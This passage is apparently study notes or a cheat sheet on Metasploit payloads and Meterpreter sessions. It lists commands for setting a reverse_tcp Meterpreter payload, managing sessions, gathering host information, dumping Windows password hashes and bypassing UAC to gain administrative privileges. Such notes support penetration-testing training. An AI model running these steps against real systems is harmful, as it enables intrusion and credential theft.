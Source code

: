 ```
# To run/exploit module
run
exploit

```

Payloads are pieces of code injected by an exploit module into the victim machine or service.

A payload is used by an attacker to get:

- An OS Shell
- A VNC or RDP connection
- A Meterpreter shell
- The execution of an attacker-supplied application

### Meterpreter

NOTE: Always use a http:// when adding a url in the exploit options

Meterpreter is a very powerful shell which runs on Android, BSD, Java, Linux, PHP, Python, and Windows vulnerable applications and services.

Meterpreter is more than a simple shell. It provides advanced features to gather information, transfer files between the attacker and victim machines, install backdoors and more.

Meterpreter lets you perform information gathering on the exploited machine and the network it is attached to. You can retrieve:

- Information about the machine and the OS
- The network configuration in use
- The routing table of the compromised host
- Information about the user running the exploited process

```
# You can set your payload to be a meterpreter shell before running it
set payload <windows, linux, java etc>/meterpreter/reverse_tcp

# Once you have a meterpreter session open you can background it or use Ctrl+z
background

# Use the sessions command to see all current running sessions
sessions
sessions -l

# Use the -i flag and the sessions number to interact with it
sessions -i 1

# Useful information gathering commands once in meterpreter shell
sysinfo
ifconfig
route
getuid
getsystem

# The hashdump module dumps the password database of a Windows machine
use post/windows/gather/hashdump
set session 1
run

# bypassuac is a module you can use to bypass uac control on a windows machine
use exploit/windows/local/bypassuac
show options
set session 1
exploit
getuid (now having administrative privileges)

# The shell command gives you a standard OS shell
```